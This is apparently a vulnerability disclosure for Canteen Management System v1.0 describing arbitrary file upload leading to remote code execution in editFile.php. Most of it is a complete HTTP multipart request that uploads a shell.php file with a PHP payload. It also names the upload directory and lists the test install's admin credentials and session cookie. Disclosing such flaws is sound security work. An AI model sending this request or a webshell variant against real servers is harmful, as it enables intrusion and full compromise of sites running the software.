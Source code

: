 # Canteen Management System v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: Qianxin Niu

vendors: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability url: ip/youthappam/php_action/editFile.php?id=1

Loophole location: Canteen Management System's editFile.php file exists arbitrary file upload (RCE)

Request package for file upload：‘

```sql
POST /youthappam/php_action/editFile.php?id=1 HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lf9hph2449vgrcadcct2jgd8ne
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------88582622926272
Content-Length: 422

-----------------------------88582622926272
Content-Disposition: form-data; name="old_image"


-----------------------------88582622926272
Content-Disposition: form-data; name="productImage"; filename="shell.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------88582622926272
Content-Disposition: form-data; name="btn"


-----------------------------88582622926272--
```

The files will be uploaded to this directory \youthappam\assets\myimages\

![image](https://user-images.githubusercontent.com/54017627/195259698-3fcd7282-3fd9-4a16-b3ac-e4260035f352.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/195259828-72982242-d8b7-4af2-b023-aea7b9a243fc.png)
